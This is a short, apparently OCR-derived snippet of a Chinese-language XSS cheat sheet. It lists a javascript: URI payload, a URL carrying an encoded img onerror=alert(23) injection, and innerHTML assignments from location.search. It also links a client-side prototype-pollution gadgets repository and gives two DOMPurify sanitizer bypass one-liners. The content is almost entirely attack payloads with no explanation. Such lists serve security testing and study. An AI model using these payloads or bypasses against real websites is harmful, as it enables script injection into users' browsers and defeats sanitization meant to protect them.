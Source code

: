 
    location=/javascript:alert%2823%29/.source;

---

    http://example.com/?test=&lt;img/src=&quot;x&quot;/onerror=alert(23)&gt;

    document.body.innerHTML=location.search;
    document.body.innerHTML=document.body.innerText;

---

# 使用脚本小工具

使用 Prorotype Pollution [PP Gadgets Repo](https://github.com/BlackFan/client-side-prototype-pollution#script-gadgets)

---

DOMPurify 绕过

    delete DOMPurify.isSupported

---

DOMPurify 绕过

    delete document.implementation.__proto__.createHTMLDocument

---

